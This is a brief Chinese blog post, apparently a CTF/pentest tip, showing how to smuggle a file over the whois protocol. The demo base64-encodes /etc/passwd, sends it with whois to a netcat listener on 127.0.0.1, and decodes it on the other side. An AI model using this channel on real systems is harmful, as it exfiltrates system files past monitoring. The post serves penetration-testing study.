```yaml
---
layout: post
categories: CTF
title: 利用Whois传输小文件。
date: 2019-09-02 10:03:13 +0800
description: 渗透安全
keywords: whois 渗透
---
```


Linux利用Whois传输文件。



```bash
传输机：
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
接受机：
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```


转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权

